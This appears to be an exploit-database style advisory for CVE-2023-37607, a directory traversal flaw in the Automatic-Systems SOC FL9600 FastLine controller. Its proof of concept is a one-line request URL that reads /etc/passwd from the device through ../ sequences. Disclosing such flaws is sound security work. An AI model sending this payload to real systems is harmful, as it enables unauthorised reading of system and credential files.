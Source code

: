# Automatic-Systems SOC FL9600 FastLine - Directory Transversal 

Date: 12/9/2023\
Remote: yes\
Local: No\
Exploit Author: Mike Jankowski-Lorek, Marcin Kozlowski, Paula Januszkiewicz and CQURE Team
CVE : CVE-2023-37607\
CWE: CWE-22\
Vendor Homepage: http://automatic-systems.com\
Version: Automatic-Systems SOC FL9600 FastLine version:V06\
Tested on: VersionSVN = 28569_8a99acbd8d7ea09a57d5fbcb435da5427b3f6b8a, DateCompil = 2019-11-20 11:22:18

## POC
Request URL: ```http://<host>/csvServer.php?getList=1&dir=../../../../etc/&file=passwd```
![image](poc1.png)

